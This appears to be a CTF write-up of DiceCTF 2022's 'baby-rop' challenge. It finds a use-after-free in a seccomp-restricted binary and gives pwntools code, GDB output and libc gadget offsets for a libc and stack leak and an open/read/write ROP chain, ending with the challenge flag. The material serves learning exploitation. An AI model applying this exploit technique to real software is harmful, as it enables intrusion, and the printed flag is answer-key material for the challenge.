

# ctf.dicega.ng - baby-rop

Challenge link: https://ctf.dicega.ng/challs

You can also download challenge file from my repo: [baby-rop.zip](baby-rop.zip)

There will be 5 files in zip:
- babyrop
- ld-linux-x86-64.so.2
- libc.so.6
- seccomp-bpf.h
- uaf.c

You can use patchelf or attached file "patch.sh" to patch file. 

> **Disclamer**: This repo for studying purpose only. Origin writeup [here](https://github.com/datajerk/ctf-write-ups/blob/master/dicectf2022/babyrop/README.md).

And when everything's ready, let's start!

# 1. Find bug

First, we will use `file` to check information of challenge:

```
babyrop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=22e8dcbaa41a9ddd0d137d3f83de9d9eee392236, not stripped
```

This is a 64-bit file without being stripped. That's sound great when we need to debug. Next, we will use `checksec` to check for security of challenge:


```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x3fe000)
```

We can see that with `Full RELRO`, we cannot overwrite any GOT (maybe not necessary), and `NX enabled`, a non-execute stack. Finally, let's open given source code `uaf.c` for futher analysis. We can see at the begining of source, there is a seccomp filter:

```
struct sock_filter filter[] = {
    VALIDATE_ARCHITECTURE,
    EXAMINE_SYSCALL,
    ALLOW_SYSCALL(mprotect),
    ALLOW_SYSCALL(mmap),
    ALLOW_SYSCALL(munmap),
    ALLOW_SYSCALL(exit_group),
    ALLOW_SYSCALL(read),
    ALLOW_SYSCALL(write),
    ALLOW_SYSCALL(open),
    ALLOW_SYSCALL(close),
    ALLOW_SYSCALL(openat),
    ALLOW_SYSCALL(fstat),
    ALLOW_SYSCALL(brk),
    ALLOW_SYSCALL(newfstatat),
    ALLOW_SYSCALL(ioctl),
    ALLOW_SYSCALL(lseek),
    KILL_PROCESS,
};
```

The filter restricts the number of syscall we can use. But with syscall open, read and write is enough for reading flag. The next part of source code we notice is:

```
void free_safe_string(int i) {
    safe_string * ptr = data_storage[i];
    free(ptr->string);
    free(ptr);
}
```

Freeing without removing pointer will result to **Use After Free**. That's all interesting things we can get from static analysis. Now let's brainstorming!

# 2. Brainstorming

As origin writeup above said:

> In many of these type of CTF challenges you usually end up creating 10 or so allocations, freeing them, then creating a larger one that can write to previously allocated memory with pointers we want to control that have existing pointers pointing to them.

So we just try to create all 10 chunk and free them, then create a larger chunk to see what happen: 

```
gef➤  x/10xg &data_storage
0x404040 <data_storage>:	0x0000000000774960	0x0000000000774730
0x404050 <data_storage+16>:	0x00000000007747a0	0x0000000000774810
0x404060 <data_storage+32>:	0x0000000000774880	0x00000000007748f0
0x404070 <data_storage+48>:	0x0000000000774960	0x00000000007749d0
0x404080 <data_storage+64>:	0x0000000000774a40	0x0000000000774ab0

gef➤  x/2xg 0x0000000000774960			# Check data_storage[0]
0x774960:	0x0000000000000420	0x00000000007749d0

gef➤  x/s0x00000000007749d0			# Check data_storage[7]
0x7749d0:	"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaajzaakbaakcaakdaakeaakfaakgaakhaakiaakjaakkaaklaakmaaknaak"
```

We can see that string of index 0 (data_storage[0][1]) will write to struct of index 7 (data_storage[7]). That's cool! With that, we can write out a size of 6 with `put@got` as the address to struct index 7, then read it from the program menu to leak libc. 

With that in hand, do it again, but this time with `libc.sym['environ']` to get a stack leak. From there we can compute the distance in GDB from the environment to the saved rip on the stack. And with that location known, well we just write out a ROP chain.

- Summary:

  1. Leak address
  2. Create ROP chain and get flag

# 3. Exploit

```
def create(index, length, data):
    p.sendlineafter(b'command:', b'C')
    p.sendlineafter(b'enter your index:', '{}'.format(index).encode())
    p.sendlineafter(b'How long is your safe_string:', '{}'.format(length).encode())
    p.sendafter(b'enter your string:', data)

def free(index):
    p.sendlineafter(b'command:', b'F')
    p.sendlineafter(b'enter your index:', '{}'.format(index).encode())

def read(index):
    p.sendlineafter(b'command:', b'R')
    p.sendlineafter(b'enter your index:', '{}'.format(index).encode())
    return p.recvuntil(b'enter')

def write(index, data):
    p.sendlineafter(b'command:', b'W')
    p.sendlineafter(b'enter your index:', '{}'.format(index).encode())
    p.sendafter(b'enter your string:', data)
```

These function for handy use.

- Step 1: Leak address

We just create and free 10 chunk, then create a larger chunk and we can control a chunk struct:

```
for i in range(10):
    create(i, 0x40, '{}'.format(i).encode()*8)
for i in range(10):
    free(i)
create(0, 0x420, cyclic(0x420))
```

Next, we will write address of `puts@got` and then write it out:

```
write(0, flat(0x8, exe.got['puts']))
print(read(7))
```

After getting puts address, we calculate libc base and `libc.sym['environ']` to leak environment stack address, then we get saved rip of main by calculating the distance from the environment address to the return address on the stack. 

However the offset may not the same for local and remote systems. If not exact, it is usually close, so just test +/- 8, 16, etc... until you found it.

- Step 2: Create ROP chain and get flag

At first, I used syscall but then I recognize after syscall, there is no `ret` so I change to use open, read and write from libc. So that, we will need these gadget for our rop:

```
pop_rdx_ret = libc.address + 0x00000000000d9c2d
pop_rdi_ret = libc.address + 0x000000000002d7dd
pop_rsi_ret = libc.address + 0x000000000002eef9
xchg_eax_edi_ret = libc.address + 0x000000000014683c
```

After a open, we have `file descryptor` in rax but there is no `mov` so we will use `xchg` instead. Our ROP chain will be like this:

```
str_flag = return_addr + 0x70
str_flag_context = str_flag + 0x8

rop = flat(pop_rdi_ret, str_flag, pop_rsi_ret, 0, libc.sym['open'])
rop += flat(xchg_eax_edi_ret, pop_rsi_ret, str_flag_context, pop_rdx_ret, 0x200, libc.sym['read'])
rop += flat(pop_rdi_ret, 1, libc.sym['write'])
rop += flat(b'flag.txt\x00')

write(0, flat(len(rop), return_addr))
write(7, rop)
```

`0x70` is the offset from rip to string flag.txt. If everything goes well, when we exit, we can get the flag.

```
p.sendlineafter(b'command:', b'E')
p.sendlineafter(b'enter your index:', b'0')
```

Full code: [solve.py](solve.py)

# 4. Get flag



Flag is `dice{glibc_2.34_stole_my_function_pointers-but_at_least_nobody_uses_intel_CET}`